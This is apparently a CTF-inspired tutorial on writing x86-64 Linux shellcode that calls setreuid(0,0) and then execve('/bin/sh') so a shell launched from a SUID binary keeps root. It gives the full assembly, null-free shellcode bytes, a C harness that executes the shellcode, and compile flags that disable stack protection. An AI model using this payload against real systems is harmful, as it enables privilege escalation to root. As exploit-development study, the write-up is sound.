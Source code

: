 # Creating a reuid(0,0) execve("/bin/sh") shellcode

# Introduction
I was sitting the other day, struggling with getting a root shell on a challenge. The concept of the challenge was simple. You got SSH credentials and there was a binary file owned by root, with the SUID bit set.

If you just do an execve("/bin/sh") on this binary, your shell will just drop privileges and you will end up with a normal user shell.

Calling setuid(0) did absolutely nothing for me and I still ended up with a normal user shell.

Although this challenge wasn't quite intended to be solved by getting a root shell. I was determined to do so and found out that you can call execve on /bin/sh with the -p parameter. And I created an exploit that did exactly this.

After discussing my overly complicated exploit with a friend, it turned out that I had gotten the idea completely wrong.

To keep privileges in the shell you just need to make sure that the uid is set to 0 and the euid is set to 0.

I looked around on http://shell-storm.org/shellcode/ and realized that although there are shellcodes which call /bin/sh with setuid(0). There are none which call /bin/sh with both setuid(0) and seteuid(0). They do however exist for ash, bash etc..

So I decided that I would like to write my own

# Writing the shell code
I decided to write just the execve("/bin/sh") part first, as I have done this before.

This is what I ended up with:

```C
xor rax, rax //Empty rax register
add rax, 0x3b //Move in execve byte
xor rsi, rsi // empty rsi register
xor rdx,rdx //empty rdx register
mov rbx, 0x68732f6e69622f2f //move "//bin/sh" into rbx
shr rbx, 8 //Change "//bin/sh" to "/bin/sh"
push rbx //Push /bin/sh onto the stack
mov rdi, rsp // move the pointer to /bin/sh on the stack into rdi
syscall //Call it
```
I use https://defuse.ca/online-x86-assembler.htm#disassembly to turn my assembly into shellcode which gives me:
```
\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05
```
I got what I need to set the different registers to from the following syscall table: https://filippo.io/linux-syscall-table/

A couple of things to note about the shellcode:
1) I only push to the stack once. I like to push as little as possible to the stack, in case my stack pointer will be on top of my executable code (this can happen if you sigret for example)

2) I empty all the registers, even though it might be initialized to 0 when I jump on the stack. This makes the shellcode versatile and makes it able to be used for other exploits as well.

3) There are no null bytes in the shellcode. Again this makes it way more versatile as a lot of input functions read until they receive a null byte.

I then decided to test my shellcode. I didn't have a copy of the old binary file laying around so I decided to create a test binary which just executes my shellcode for me

I can not take credit for the testing code. The code is taken from https://gist.github.com/securitytube/5318838 where I've only done slight modifications:

```C
#include<stdio.h>
#include<string.h>


int main(void)
{
	unsigned char code[] = "\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05";
  printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Modifications are:

1) Moving code string inside the main loop to make sure it's on the stack instead of in a section for global variable in the compiled binary

2) Changing the char code to my own payload

I then compiled it with:
```
gcc shellcodetester.c -o test1 -fno-stack-protector -z execstack -no-pie
```
And ran the following linux commands on the compiled binary to give it suid bit and make it owned by root:

```bash
sudo chown 0:0 ./test1
sudo chmod u+s ./test1
```

Running the binary we get a shell but only with normal user privileges:

![shellrun1.png](https://github.com/Mymaqn/roadtopwn/blob/main/shellcode/Creating_reuid_execve_shellcode/shellrun1.png?raw=true)

Now that we have normal working shellcode time to use setuid(0) and seteuid(0)

Looking up the man page of seteuid you will see the following:

```
Under libc4, libc5 and glibc 2.0 seteuid(euid) is equivalent to setreuid(-1, euid) and hence may change the saved set-user-ID. Under glibc 2.1 and later it is equivalent to setresuid(-1, euid, -1) and hence does not change the saved set-user-ID. Analogous remarks hold for setegid(), with the difference that the change in implementation from setregid(-1, egid) to setresgid(-1, egid, -1) occurred in glibc 2.2 or 2.3 (dependeing on the hardware architecture).
```

This means that we do not have a specific syscall to seteuid but a syscall to setreuid(ruid,euid)

The good part about this is that setreuid also allows us to set the user id at the same time. So we only need to do one syscall for setting everything instead of two.

So all we need to do is call setreuid(0,0) since we want to set our user to be root.

Again I used the previously mentioned [site](https://defuse.ca/online-x86-assembler.htm#disassembly) for assembling my code and the [syscall](https://filippo.io/linux-syscall-table/) lookup table to see what values I should set the registers to.

```C
xor rax, rax //set rax to 0
add rax, 0x71 //setreuid byte
xor rdi, rdi //ruid
xor rsi, rsi //euid
syscall //call it reuid(0,0)
```

Then I smacked both of my codes together:
```C
xor rax, rax //set rax to 0
add rax, 0x71 //setreuid byte
xor rdi, rdi //ruid
xor rsi, rsi //euid
syscall //call it reuid(0,0)
xor rax, rax //Empty rax register
add rax, 0x3b //Move in execve byte
xor rsi, rsi // empty rsi register
xor rdx,rdx //empty rdx register
mov rbx, 0x68732f6e69622f2f //move "//bin/sh" into rbx
shr rbx, 8 //Change "//bin/sh" to "/bin/sh"
push rbx //Push /bin/sh onto the stack
mov rdi, rsp // move the pointer to /bin/sh on the stack into rdi
syscall //Call it execve("/bin/sh",0,0)
```

Assembled char code looks like this:
```
\x48\x31\xC0\x48\x83\xC0\x71\x48\x31\xFF\x48\x31\xF6\x0F\x05\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05
```

Running the shellcode tester with the newly generated char code then gives us a root shell:

![shellrun2.png](https://github.com/Mymaqn/roadtopwn/blob/main/shellcode/Creating_reuid_execve_shellcode/shellrun1.png?raw=true)

Bear in mind that I did not set the group id as it's not needed for the root privileges. But the group id can be set in the same manner as setreuid was, just using setregid instead.

Hope you learnt as much as I did from this :)
